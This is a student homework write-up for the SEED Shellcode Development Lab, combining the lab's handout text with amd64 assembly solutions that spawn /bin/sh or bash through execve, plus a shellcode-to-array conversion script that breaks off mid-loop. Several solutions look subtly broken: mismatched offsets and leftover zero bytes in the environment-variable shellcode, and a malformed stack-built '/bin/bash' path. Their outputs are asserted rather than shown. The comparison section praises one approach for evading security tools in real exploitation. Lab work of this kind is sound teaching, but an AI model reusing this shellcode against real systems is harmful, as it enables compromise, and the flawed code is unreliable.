





# Information Security HW03

- 41173058h
- 鍾詠傑
- Information Security HW03
- [github repo](https://github.com/G36maid/ntnu-sec-hw03)

## references

- [Shellcode Development Lab](https://seedsecuritylabs.org/Labs_20.04/Software/Shellcode/)
- [Return-to-libc](https://seedsecuritylabs.org/Labs_20.04/Software/Return-to-libc/)
- [Wikipedia](https://en.wikipedia.org/wiki/Wikipedia)
- claude 3.7 sonnet
- chatgpt 4o

## Table of Contents

[TOC]

## Project structure
```
. ── DASH
│   └── setuid_program.c
├── NX
│   ├── Makefile
│   ├── test_heap.c
│   └── test_stack.c
├── Password-Guess
│   └── password_guess.c
├── README.md
├── Return-to-libc
│   ├── change_env.sh
│   ├── exploit.py
│   ├── gdb_command.txt
│   ├── image.png
│   ├── Makefile
│   ├── prtenv.c
│   ├── retlib.c
│   ├── Return-to-libc.md
│   ├── task1_output.txt
│   └── task1.png
└── Shellcode
    ├── another_sh64_bash.s
    ├── another_sh64.s
    ├── arm
    │   ├── another_sh64.s
    │   ├── hello.s
    │   ├── Makefile
    │   └── mysh64.s
    ├── convert.py
    ├── hello.s
    ├── Makefile
    ├── mysh64_bash.s
    ├── mysh64_execve.s
    ├── mysh64_no_zero.s
    ├── mysh64.s
    ├── Shellcode.md
    ├── task1.png
    ├── task2b_output.txt
    ├── task2c.png
    ├── task2.png
    └── tesk2_output.txt
```


## 3.1 SEED Lab (20 pts)
[Shellcode Development Lab](https://seedsecuritylabs.org/Labs_20.04/Software/Shellcode/)

### solutions
see the code and documentation
- code : [/Shellcode/](./Shellcode/)
- documentation : [Shellcode/Shellcode.md](./Shellcode/Shellcode.md)

### Task 1: Writing Assembly Code

To be able to have a direct control over what instructions to use in a shellcode, the best way to write a
shellcode is to use an assembly language. In this task, we will use a sample program to get familiar with the
development environment.
Assembly languages are different for different computer architectures. In this task, the sample code
(hello.s) is for the amd64 (64-bit) architecture. The code is included in the Labsetup folder. Students
SEED Labs – Shellcode Development Lab 2
working on Apple silicon machines can find the arm version of the sample code in the Labsetup/arm
folder.

##### Listing 1: A sample amd64 assembly program (hello.s)

```hello.s
global _start
section .text
_start:
mov rdi, 1 ; the standard output
mov rsi, msg ; address of the message
mov rdx, 15 ; length of the message
mov rax, 1 ; the number of the write() system call
syscall ; invoke write(1, msg, 15)
mov rdi, 0 ;
mov rax, 60 ; the number for the exit() system call
syscall ; invoke exit(0)
section .rodata
msg: db "Hello, world!", 10
```

##### Compiling to object code

We compile the assembly code above using nasm, which is an assembler and
disassembler for the Intel x86 and x64 architectures. For the arm64 architecture, the corresponding tool is
called as. The -f elf64 option indicates that we want to compile the code to 64-bit ELF binary format.
The Executable and Linkable Format (ELF) is a common standard file format for executable file, object
code, shared libraries. For 32-bit assembly code, elf32 should be used.

```
// For amd64
$ nasm -f elf64 hello.s -o hello.o
// For arm64
$ as -o hello.o hello.s
```

##### Linking to generate final binary

Once we get the object code hello.o, if we want to generate the
executable binary, we can run the linker program ld, which is the last step in compilation. After this step,
we get the final executable code hello. If we run it, it will print out "Hello, world!".

```
// For both amd64 and arm64
$ ld hello.o -o hello
$ ./hello
Hello, world!
```

##### Getting the machine code

In most attacks, we only need the machine code of the shellcode, not a stan-
dalone executable file, which contains data other than the actual machine code. Technically, only the ma-
chine code is called shellcode. Therefore, we need to extract the machine code from the executable file or
the object file. There are various ways to do that. One way is to use the objdump command to disassemble
the executable or object file.
SEED Labs – Shellcode Development Lab 3
For amd64, there are two different common syntax modes for assembly code, one is the AT&T syntax
mode, and the other is Intel syntax mode. By default, objdump uses the AT&T mode. In the following, we
use the -Mintel option to produce the assembly code in the Intel mode.

```
$ objdump -Mintel -d hello.o
hello.o: file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <_start>:
0: bf 01 00 00 00 mov edi,0x1
5: 48 be 00 00 00 00 00 movabs rsi,0x0
c: 00 00 00
f: ba 0f 00 00 00 mov edx,0xf
14: b8 01 00 00 00 mov eax,0x1
19: 0f 05 syscall
1b: bf 00 00 00 00 mov edi,0x0
20: b8 3c 00 00 00 mov eax,0x3c
25: 0f 05 syscall
```

In the above printout, the numbers after the colons are machine code. You can also use the xxd com-
mand to print out the content of the binary file, and you should be able to find out the shellcode’s machine
code from the printout.

```
$ xxd -p -c 20 hello.o
7f454c4602010100000000000000000001003e00
...
000000001800000000000000bf0100000048be00
00000000000000ba0f000000b8010000000f05bf
00000000b83c0000000f05000000000000000000
...
```

#### Task

Your task is to go through the entire process: compiling and running the sample code, and then get
the machine code from the binary.



### Task 2: Writing Shellcode (Approach 1)

The main purpose of shellcode is to actually quite simple: to run a shell program such as /bin/sh. In the
Ubuntu operating system, this can be achieved by invoking the execve() system call.
`execve("/bin/sh", argv[], 0)`
We need to pass three arguments to this system call: In the amd64 architecture, they are are passed
through the rdi, rsi, and rdx registers. In the arm64 architecture, they are passed through the x0, x1,
and x2 registers. The pseudo code is listed below:

```
// For amd64 architrecture
Let rdi = address of the "/bin/sh" string
Let rsi = address of the argv[] array
Let rdx = 0
Let rax = 59 // 59 is execve’s system call number
syscall // Invoke execve()
// For the arm64 architrecture
Let x0 = address of the "/bin/sh" string
Let x1 = address of the argv[] array
Let x2 = 0
Let x8 = 221 // 221 is execve’s system call number
svc 0x1337 // Invoke execve()
```

The main challenge of writing a shellcode is how to get the address of the "/bin/sh" string and the
address of the argv[] array? They are two typical approaches:
• Approach 1: Store the string and the array in the code segment, and then get their addresses using the
PC register, which points to the code segment. We focus on this approach in this task.
• Approach 2: Dynamically construct the string and the array on the stack, and then use the stack pointer
register to get their addresses. We focus on this approach in the next task.

#### Task 2.a. Understand the code

We provide a sample shellcode below. This code is for the amd64 architecture. The code can also be found
in the Labsetup folder. If you are working on this lab on an Apple silicon machine, you can find the
sample arm64 code in the arm sub-folder.
Listing 2: A sample 64-bit shellcode (mysh64.s)
```mysh64.s
section .text
    global _start
    _start:
        BITS 64
        jmp short two
    one:
        pop rbx

        mov [rbx+8], rbx    ; store rbx to memory at address rbx + 8
        mov rax, 0x00       ; rax = 0
        mov [rbx+16], rax   ; store rax to memory at address rbx + 16
        mov rdi, rbx        ; rdi = rbx (1)
        lea rsi, [rbx+8]    ; rsi = rbx +8 (2)
        mov rdx, 0x00       ; rdx = 0
        mov rax, 59         ; rax = 59
        syscall
    two:
        call one
        db ’/bin/sh’, 0      ; The command string (terminated by a zero) ¬
        db ’AAAAAAAA’        ; Place holder for argv[0]
        db ’BBBBBBBB’        ; Place holder for argv[1]
```

The code above first jumps to the instruction at location two, which does another jump (to location
one), but this time, it uses the call instruction. This instruction is for function call, i.e., before it jumps
SEED Labs – Shellcode Development Lab 5
to the target location, it saves the address of the next instruction (i.e., the return address) on the top of the
stack, so when the function returns, it can return to the instruction right after the call instruction.
In this example, the “instruction” right after the call instruction is not actually an instruction; it stores
a string. However, this does not matter, the call instruction will push its address (i.e., the string’s address)
into the stack, in the return address field of the function frame. When we get into the function, i.e., after
jumping to location one, the top of the stack is where the return address is stored. Therefore, the pop rbx
instruction actually get the address of the string on Line ¬, and save it to the rbx register. That is how the
address of the string is obtained.

##### Tasks. Please do the following tasks

1. Compile and run the code, and see whether you can get a shell. The -g option enables the debugging
information, as we will debug the code.

```
// For amd64
$ nasm -g -f elf64 -o mysh64.o mysh64.s
$ ld --omagic -o mysh64 mysh64.o
// For arm64
$ as -g -o mysh64.o mysh64.s
$ ld --omagic -o mysh64 mysh64.o
```

Note. We need to use the `--omagic` option when running the linker program ld. By default, the
code segment is not writable. When this program runs, it needs to modify the data stored in the code
region; if the code segment is not writable, the program will crash. This is not a problem for actual
attacks, because in attacks, the code is typically injected into a writable data segment (e.g. stack or
heap). Usually we do not run shellcode as a standalone program.
2. Use `gdb` to debug the program, and show how the program gets the address of the shell string
`/bin/sh`.
3. Explain how the program constructs the `argv[]` array, and show which lines set the values for
`argv[0]` and `argv[1]`, respectively.
4. Explain the real meaning of Lines 1 and 2.
Common gdb commands. Here are some gdb commands that may be useful to this lab. To know how
to use other gdb commands, inside gdb, you can type help to get a list of command class names. Type
help followed by a class name, and you can get a list of commands in that class.

```
$ gdb mysh64
help -- Print out the help information
break one -- Set a break point at section "one"
run -- Start debugged program.
step -- Step program until it reaches a different source line.
print $rbx -- Print out the value of the rbx register
x/40bx <addr> -- Print out the memory at address <addr>
x/40bx $rsp -- Print out the top 40 bytes of the stack
x/5gx $rsp -- Print out the top 4 double-word (8 bytes) of the stack
quit -- Exit from gdb
```
##### solution

 1. From the compilation and debugging output, we can see the code was successfully compiled and a shell was obtained.(Shellcode/task2_output.txt)

 2. The program gets the `/bin/sh` string address through the following sequence:
    - Code jumps to `two`, which executes `call one`
    - The `call` instruction pushes the address of the next instruction (string location) onto stack
    - `pop rbx` retrieves this address (0x4000ad) which points to `/bin/sh`
    - Memory dump shows string bytes at 0x4000ad: `2f 62 69 6e 2f 73 68` (/bin/sh)

 3. The argv[] array is constructed as:
    - `mov [rbx+8], rbx` sets argv[0] to point to "/bin/sh" string
    - `mov [rbx+16], rax` sets argv[1] to NULL (terminator)
    Memory layout:
    - rbx -> "/bin/sh"
    - rbx+8 -> points to "/bin/sh" (argv[0])
    - rbx+16 -> NULL (argv[1])

 4. Lines 1-2 prepare execve() arguments:
    - `mov rdi, rbx` - Line 1 sets first arg (filename) to "/bin/sh" address
    - `lea rsi, [rbx+8]` - Line 2 sets second arg (argv) to address of argv array



#### Task 2.b. Eliminate zeros from the code

Shellcode is widely used in buffer-overflow attacks. In many cases, the vulnerabilities are caused by string
copy, such as the strcpy() function. For these string copy functions, zero is considered as the end of the
string. Therefore, if we have a zero in the middle of a shellcode, string copy will not be able to copy anything
after the zero, so the attack will not be able to succeed. Although not all the vulnerabilities have issues with
zeros, it becomes a requirement for shellcode not to have any zero in the machine code; otherwise, the
application of a shellcode will be limited.
The sample code provided in the previous section is not a true shellcode, because it contains several
zeros. Please use the objdump command to get the machine code of the shellcode and mark all the instruc-
tions that have zeros in the machine code.
To eliminate these zeros, you need to rewrite the shellcode mysh64.s, replacing the problematic in-
structions with an alternative. Section 5 provides some approaches that you can use to get rid of zeros.
Please show the revised mysh64.s and explain how you get rid of each single zero from the code.

##### solution
Here's the revised code

- code : `Shellcode/mysh64_no_zero.s`
- gdb output : `Shellcode/task2b_output.txt`

```nasm
section .text
    global _start
    _start:
        BITS 64
        jmp short two
    one:
        pop rbx

        ; Zero out al without using immediate zero
        xor al, al
        mov [rbx+7], al   ; Null terminate /bin/sh

        ; Store rbx to memory without direct mov
        push rbx
        pop qword [rbx+8]  ; Replaces 'mov [rbx+8], rbx'

        ; Zero out rax without immediate zero
        xor rax, rax      ; Replaces 'mov rax, 0x00'
        mov [rbx+16], rax ; Store null terminator for argv

        ; Setup execve arguments
        mov rdi, rbx      ; First arg: command string
        lea rsi, [rbx+8]  ; Second arg: argv array
        xor rdx, rdx      ; Third arg: envp=NULL (replaces 'mov rdx, 0x00')

        ; Setup syscall number without immediate value
        xor rax, rax
        mov al, 59        ; syscall number for execve
        syscall
    two:
        call one
        db '/bin/sh', 0xFF    ; Command string (terminated later by code)
        db 'AAAAAAAA'         ; Placeholder for argv[0]
        db 'BBBBBBBB'         ; Placeholder for argv[1]
```

Explanations of the zero-eliminating modifications:

1. **Null terminator for `/bin/sh`**:
   - Original: `mov byte [rbx+7], 0`
   - New: Use `xor al, al` to get zero, then `mov [rbx+7], al`

2. **Moving rbx to memory**:
   - Original: `mov [rbx+8], rbx`
   - New: Use `push rbx` followed by `pop qword [rbx+8]`

3. **Zeroing rax**:
   - Original: `mov rax, 0x00`
   - New: `xor rax, rax`

4. **Zeroing rdx**:
   - Original: `mov rdx, 0x00`
   - New: `xor rdx, rdx`

5. **Setting syscall number**:
   - Original: `mov rax, 59`
   - New: First `xor rax, rax` then `mov al, 59`
   - This ensures only the lower byte is set, avoiding zeros in the higher bytes

6. **String termination**:
   - Original: Immediate zero in string
   - New: Use 0xFF as placeholder and programmatically write the null terminator


#### Task 2.c. Run a more complicated command

Inside mysh64.s, we construct the argv[] array for the execve() system call. Since our command is
/bin/sh, without any command-line arguments, our argv array only contains two elements: the first one
is a pointer to the command string, and the second one is zero.
In this task, we need to run the following command, i.e., we want to use execve to execute the follow-
ing command, which uses /bin/bash to execute the "echo hello; ls -la" command.
`/bin/bash -c "echo hello; ls -la"`
In this new command, the argv array should have the following four elements, all of which need to be
constructed on the stack. Please modify mysh64.s and demonstrate your execution result. As usual, you
cannot have any zero in your shellcode.

```
argv[0] = address of the "/bin/bash" string
argv[1] = address of the "-c" string
argv[2] = address of the command string "echo hello; ls -la"
argv[3] = 0
```
##### solution
- code : `Shellcode/mysh64_bash.s`
- screenshots :


```nasm
section .text
  global _start
    _start:
        BITS 64
        jmp short two
    one:
        pop rbx           ; rbx points to the string area

        ; Set up /bin/bash string termination
        xor al, al
        mov [rbx+9], al  ; Terminate /bin/bash

        ; Set up -c string termination
        mov [rbx+12], al ; Terminate -c

        ; Set up command string termination
        mov [rbx+31], al ; Terminate the command string

        ; Set up argv array
        lea rax, [rbx]        ; /bin/bash string
        mov [rbx+32], rax     ; argv[0]

        lea rax, [rbx+10]     ; -c string
        mov [rbx+40], rax     ; argv[1]

        lea rax, [rbx+13]     ; command string
        mov [rbx+48], rax     ; argv[2]

        xor rax, rax
        mov [rbx+56], rax     ; argv[3] = NULL

        ; Execute execve
        mov rdi, rbx          ; First arg: pathname
        lea rsi, [rbx+32]     ; Second arg: argv array
        xor rdx, rdx          ; Third arg: envp = NULL
        mov al, 59            ; syscall number for execve
        syscall

    two:
        call one
        ; String table
        db '/bin/bash'    ; 9 bytes
        db 0xFF
        db '-c'           ; 2 bytes
        db 0xFF
        db 'echo hello; ls -la'  ; 18 bytes
        db 0xFF
        ; Space for argv array (4 pointers = 32 bytes)
        db 'AAAAAAAA'     ; argv[0]
        db 'BBBBBBBB'     ; argv[1]
        db 'CCCCCCCC'     ; argv[2]
        db 'DDDDDDDD'     ; argv[3]
```

Key changes made:

1. Changed `/bin/sh` to `/bin/bash`
2. Added the `-c` argument
3. Added the command string `echo hello; ls -la`
4. Modified the array structure to hold 4 elements instead of 2
5. Updated all the offsets accordingly
6. Added proper null termination for all strings
7. Created the complete argv array with all required pointers


This should execute bash with the command `echo hello; ls -la`, which will:
1. Print "hello" to the console
2. Show a detailed listing of the current directory

The shellcode avoids null bytes by:
- Using `xor` to generate zeros
- Using `0xFF` as string terminators initially
- Using minimal registers where possible
- Using `lea` for address calculations

#### Task 2.d. Pass environment variables

The third parameter for the execve() system call is a pointer to the environment variable array, and it
allows us to pass environment variables to the program. In our sample program, we pass a null pointer to
execve(), so no environment variable is passed to the program. In this task, we will pass some environ-
ment variables.
If we change the command "/bin/sh" in our shellcode mysh64.s to "/usr/bin/env", which
is a command to print out the environment variables. You can find out that when we run our shellcode, there
will be no output, because our process does not have any environment variable.
In this task, we will write a shellcode called myenv64.s. When this program is executed, it executes
the "/usr/bin/env" command, which can print out the following environment variables:

```
$ ./myenv64
aaa=hello
bbb=world
ccc=hello world
```

To write such a shellcode, we need to construct an environment variable array on the stack, and store the
address of this array to the rdx register, before invoking execve(). The way to construct this array on
the stack is exactly the same as the way how we construct the argv[] array. See the following:

```
env[0] = address to the "aaa=hello" string
env[1] = address to the "bbb=world" string
env[2] = address to the "ccc=hello world" string
env[3] = 0 // 0 marks the end of the array
```
##### solution

- code : `solution/mysh64_execve.s`

```nasm
section .text
  global _start
    _start:
        BITS 64
        jmp short two
    one:
        pop rbx                ; Get address of "/usr/bin/env"

        ; Terminate the command string
        xor al, al
        mov [rbx+11], al      ; Null terminate "/usr/bin/env"

        ; Set up env strings
        mov [rbx+12], rbx     ; Store address of command as argv[0]
        mov [rbx+28], rax     ; Null terminate argv array

        ; Store addresses of environment strings
        lea rcx, [rbx+20]     ; Address of "aaa=hello"
        mov [rbx+40], rcx     ; env[0]
        lea rcx, [rbx+30]     ; Address of "bbb=world"
        mov [rbx+48], rcx     ; env[1]
        lea rcx, [rbx+40]     ; Address of "ccc=hello world"
        mov [rbx+56], rcx     ; env[2]
        mov qword [rbx+64], 0 ; env[3] = NULL

        ; Execute execve
        mov rdi, rbx          ; First arg: command path
        lea rsi, [rbx+12]     ; Second arg: argv array
        lea rdx, [rbx+40]     ; Third arg: envp array
        mov rax, 59           ; syscall number for execve
        syscall

    two:
        call one
        ; Command and strings
        db '/usr/bin/env', 0      ; The command string
        db 'AAAAAAAA'             ; Placeholder for argv[0]
        db 'BBBBBBBB'             ; Null terminator for argv
        db 'aaa=hello', 0         ; env[0]
        db 'bbb=world', 0         ; env[1]
        db 'ccc=hello world', 0   ; env[2]
        db 'AAAAAAAA'             ; Placeholder for env array
        db 'BBBBBBBB'
        db 'CCCCCCCC'
        db 'DDDDDDDD'
```

This shellcode does the following:

1. Uses `/usr/bin/env` instead of `/bin/sh` as the command
2. Sets up the environment variables array with three strings:
   - "aaa=hello"
   - "bbb=world"
   - "ccc=hello world"
3. Properly terminates both the argv and envp arrays with NULL
4. Passes the environment array to execve() through the rdx register

When executed, it should output:
```
aaa=hello
bbb=world
ccc=hello world
```

The main differences from `mysh64.s` are:
1. Different command string (/usr/bin/env)
2. Addition of environment variable strings
3. Construction of the environment array (envp)
4. Passing the environment array to execve via rdx


### Task 3: Writing Shellcode (Approach 2)

Another approach to get the shell string and the argv[] array is to dynamically construct them on the
stack, and then use the stack pointer register to get their addresses. A sample shellcode (for amd64) using
this approach is listed below. Both amd64 and arm64 code can be found from the Labsetup folder.
Brief explanation of the code is given in the comment, but if students want to see a full explanation, they
can find much more detailed explanation of the code in the SEED book.

```Listing 3: Shellcode using the stack approach (another sh64.s)
section .text
global _start
_start:
xor rdx, rdx ; rdx = 0
push rdx ; push 0 into the stack (terminate the string below)
mov rax,’/bin//sh’
push rax ; push the string into the stack
mov rdi, rsp ; rdi = address of the command string
push rdx ; push argv[1]=0 into stack
push rdi ; push argv[0] into stack
mov rsi, rsp ; rsi = address of the argv[] array
xor rax, rax
mov al, 59 ; execve()
syscall
```

We can use the following commands to compile the assemble code into
64-bit binary code:

```
// For amd64
$ nasm -f elf64 mysh_64.s -o mysh_64.o
$ ld mysh_64.o -o mysh_64
// For arm64
$ as mysh_64.s -o mysh_64.o
$ ld mysh_64.o -o mysh_64
```

#### Task 3.a. The code example shows how to execute "/bin/sh". In this task, we need to revise the

shellcode, so it can execute a more complicated shell command listed in the following. Please write your
code to achieve this. You need to show that there is no zero in your code.
`/bin/bash -c "echo hello; ls -la"`

##### solution

- code : `Shellcode/another_sh64_bash.c`
- solution :
```nasm
section .text
global _start
_start:
    ; Clear registers
    xor rdx, rdx    ; Clear rdx for null terminator
    xor rax, rax    ; Clear rax

    ; Push the command string "echo hello; ls -la" (in reverse)
    push rdx        ; Push null terminator
    mov rax, 'a'    ; Build command string piece by piece
    push rax
    mov rax, 'ls -l'
    push rax
    mov rax, 'llo; '
    push rax
    mov rax, 'ho he'
    push rax
    mov rax, 'ec'
    push rax
    mov r8, rsp     ; Save pointer to command string

    ; Push "-c" (in reverse)
    push rdx        ; Push null terminator
    mov rax, 'c-'
    push rax
    mov r9, rsp     ; Save pointer to "-c"

    ; Push "/bin/bash" (in reverse)
    push rdx        ; Push null terminator
    mov rax, 'bash'
    push rax
    mov rax, '/bin/'
    push rax
    mov r10, rsp    ; Save pointer to "/bin/bash"

    ; Set up array of pointers for execve
    push rdx        ; NULL terminator
    push r8         ; Push pointer to command string
    push r9         ; Push pointer to "-c"
    push r10        ; Push pointer to "/bin/bash"
    mov rdi, r10    ; First argument: "/bin/bash"
    mov rsi, rsp    ; Second argument: pointer to array

    ; Execute execve syscall
    push 59
    pop rax         ; syscall number for execve
    syscall
```

This shellcode:

1. Creates the command strings in reverse order to avoid null bytes
2. Stores the three main components:
   - The shell command `"echo hello; ls -la"`
   - The `-c` parameter
   - The path `/bin/bash`
3. Sets up the argument array for execve
4. Makes the syscall


#### Task 3.b. Please compare the two approaches in this lab. Which one do you like better, and why?

First Approach (mysh64_bash.s):
- Uses call/jmp technique to get string addresses
- Stores strings in a data section
- Manually sets up null terminators
- Creates argv array in a pre-allocated space
- More static in nature

Second Approach (another_sh64_bash.s):
- Uses stack-based string construction
- Builds strings dynamically in reverse
- Uses registers to track pointers
- More dynamic and compact
- Avoids null bytes naturally through stack operations

I prefer the second approach for several reasons:

1. **Portability**: The stack-based approach is more position-independent since it doesn't rely on fixed memory locations. This makes it more suitable for injection scenarios.

2. **Compactness**: The code is more concise and uses stack operations efficiently. It doesn't need pre-allocated space for strings or arrays.

3. **Security**: It's harder to detect because:
   - It doesn't have obvious string patterns that could be flagged by security tools
   - The strings are constructed dynamically
   - It avoids null bytes naturally through its design

4. **Flexibility**: The stack-based approach is easier to modify for different commands without worrying about space allocation or string table modifications.

5. **Cleaner Code**: Despite being more sophisticated, the logic is actually clearer - each step (string construction, argument setup, syscall) is distinct and well-organized.

The first approach is more straightforward to understand initially, but the second approach represents better shellcode crafting practices, especially for real-world scenarios where size, stealth, and portability matter.

The main tradeoff is that the second approach might be slightly harder to read for beginners, but its benefits in terms of security and reliability make it the superior choice for actual exploitation scenarios.

### A Using the shellcode in attacking code

In actual attacks, we need to include the shellcode in our attacking code, such as a Python or C program.
We usually store the machine code in an array, but converting the machine code printed above to the array
assignment in Python and C programs is quite tedious if done manually, especially if we need to perform this
process many times in the lab. We wrote the following Python code to help this process. Just copy whatever
you get from the xxd command (only the shellcode part) and paste it to the following code, between the
lines marked by """. The code can be downloaded from the lab’s website.
Listing 4: convert.py

```convert.py
# !/usr/bin/env python3

# Run "xxd -p -c 20 mysh.o", and

# copy and paste the machine code part to the following

ori_sh ="""
31db31c0b0d5cd80
31c050682f2f7368682f62696e89e3505389e131
d231c0b00bcd80
"""
sh = ori_sh.replace("\n", "")
length = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = ’shellcode= (\n’ + ’ "’
for i in range(length):
s += "\\x" + sh[2*i] + sh[2*i+1]
if i > 0 and i % 16 == 15:
